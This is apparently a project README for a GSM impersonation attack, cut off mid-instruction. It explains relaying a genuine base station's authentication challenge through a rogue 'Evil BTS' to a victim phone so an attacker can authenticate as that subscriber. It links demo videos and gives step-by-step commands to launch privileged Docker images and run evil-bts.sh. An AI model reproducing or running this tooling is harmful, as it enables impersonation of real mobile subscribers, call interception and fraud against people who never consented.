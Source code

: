 I mean the secret is the key Ki stored on the SIM even with physical
access you can\'t crack it thanks to the chip inventor ! But we can fool
the authentication process : The original process is :

-   The BTS send a rand,key\_sequence to the MS.
-   The MS respond SRes = f(ki,rand)
-   The MS cipher the communication with Kc= f(Ki,rand,key\_seq)

The hacked process is :

-   The genuine BTS send a rand,key\_seq to the Evil MS.
-   The Evil MS send it to our Evil BTS via socket between Evil BTS
    server and Evil MS client.
-   The Evil BTS send the rand,key\_seq to genuine MS
-   The Genuine MS respond sres -\> Evil BTS -\> Evil MS -\> Genuine BTS
-   In the example video Kc is forwarded between Genuine MS-\> Evil MS

[Impersonnate PoC](https://www.youtube.com/watch?v=gHKmmVZAaFo)

With french explanations ;) sorry\...

[Impersonalisaion
(français)](https://www.youtube.com/watch?v=gHKmmVZAaFo)

With english explanation (now ;) [Impersonate
(english)](https://www.youtube.com/watch?v=rSGA4oFsFrQ)

<https://imgur.com/lUjkpGp> First of all there is a bug with brltty so

``` {.sourceCode .bash}
apt remove brltty
```

on host (not on docker !) Launch 1st

``` {.sourceCode .bash}
sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/ms-final:hell_yeah
```

Launch 2nd

``` {.sourceCode .bash}
sudo docker run -it --privileged --user root --cap-add ALL  -v /dev/bus/usb:/dev/bus/usb bastienbaranoff/bts-final:hell_yeah
```

In this order cause need ip 172.17.0.2 for ms and 172.17.0.3 for bts
(socket are made to work with theses addresses)

in bts

``` {.sourceCode .bash}
tmux
cd /
service pcscd start
./evil-bts.sh
```

\` then in ms :
